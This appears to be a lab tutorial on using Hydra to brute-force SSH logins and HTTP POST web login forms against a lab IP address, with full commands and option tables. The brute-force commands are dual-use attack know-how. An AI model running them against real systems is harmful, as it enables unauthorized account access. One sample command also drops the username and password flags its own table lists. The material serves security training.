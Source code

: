 ### SSH

```hydra -l <username> -P <full path to pass> 10.10.243.107 -t 4 ssh```

|Option | Description
|:-|:-
|-l | specifies the (SSH) username for login
|-P | indicates a list of passwords
|-t | sets the number of threads to spawn

### Post Web Form

We can use Hydra to brute force web forms too. You must know which type of request it is making; GET or POST methods are commonly used. You can use your browser’s network tab (in developer tools) to see the request types or view the source code.

```sudo hydra <username> <wordlist> 10.10.243.107 http-post-form "<path>:<login_credentials>:<invalid_response>"```

|Option | Description
|:-|:-
|-l | the username for (web form) login
|-P | the password list to use
|http-post-form | the type of the form is POST
|<path> | the login page URL, for example, login.php
|<login_credentials> | the username and password used to log in, for example, username=^USER^&password=^PASS^
|<invalid_response> | part of the response when the login fails
|-V | verbose output for every attempt

```hydra -l <username> -P <wordlist> 10.10.243.107 http-post-form "/:username=^USER^&password=^PASS^:F=incorrect" -V```

* The login page is only /, i.e., the main IP address.
* The username is the form field where the username is entered
* The specified username(s) will replace ^USER^
* The password is the form field where the password is entered
* The provided passwords will be replacing ^PASS^
* Finally, F=incorrect is a string that appears in the server reply when the login fails






